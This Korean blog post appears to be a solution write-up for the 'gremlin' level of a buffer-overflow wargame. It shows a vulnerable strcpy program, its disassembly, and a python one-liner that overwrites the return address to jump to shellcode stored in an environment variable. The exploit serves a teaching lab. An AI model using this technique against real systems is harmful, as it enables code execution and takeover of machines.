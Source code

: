 ```yaml
---
title: "BOF - Lv.2 gremlin"
excerpt: "Lv.2 gremlin"
toc: true
toc_sticky: true
categories:
  - BOF
tags:
  - buffer overflow
---
```


## 1. Source Code
```C
int main(int argc, char *argv[])
{
    char buffer[16];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}


gdb로 보면

0x8048430 <main>:       push   %ebp
0x8048431 <main+1>:     mov    %ebp,%esp
0x8048433 <main+3>:     sub    %esp,16
0x8048436 <main+6>:     cmp    DWORD PTR [%ebp+8],1
0x804843a <main+10>:    jg     0x8048453 <main+35>
0x804843c <main+12>:    push   0x80484d0
0x8048441 <main+17>:    call   0x8048350 <printf>
0x8048446 <main+22>:    add    %esp,4
0x8048449 <main+25>:    push   0
0x804844b <main+27>:    call   0x8048360 <exit>
0x8048450 <main+32>:    add    %esp,4
0x8048453 <main+35>:    mov    %eax,DWORD PTR [%ebp+12]
0x8048456 <main+38>:    add    %eax,4
0x8048459 <main+41>:    mov    %edx,DWORD PTR [%eax]
0x804845b <main+43>:    push   %edx
0x804845c <main+44>:    lea    %eax,[%ebp-16]
0x804845f <main+47>:    push   %eax
0x8048460 <main+48>:    call   0x8048370 <strcpy>
0x8048465 <main+53>:    add    %esp,8
0x8048468 <main+56>:    lea    %eax,[%ebp-16]
0x804846b <main+59>:    push   %eax
0x804846c <main+60>:    push   0x80484dc
0x8048471 <main+65>:    call   0x8048350 <printf>
0x8048476 <main+70>:    add    %esp,8
0x8048479 <main+73>:    leave
0x804847a <main+74>:    ret

```

## 2. Vulnerability

버퍼의 크기가 16인데 쉘코드 길이는 25byte, 41byte 등으로 버퍼안에 쉘코드를 넣어줄 수가 없음. 그래서 환경변수를 이용하여 문제를 해결해야 함.  
환경변수를 이용하면 변수의 주소를 리턴주소로 설정하면 되므로 버퍼의 크기에 상관없이 쉘코드를 실행시킬 수 있다. [환경변수 설정 및 주소 구하기](https://pistolwest.github.io/linux/bof/environment-value/)
## 3. Solution
환경변수 주소 ex)0xbffffc34 를 리턴 주소로 해주면 끝임. 
```php
./cobolt `python -c 'print "\x90"*20+"\x34\xfc\xff\xbf"'`
``` 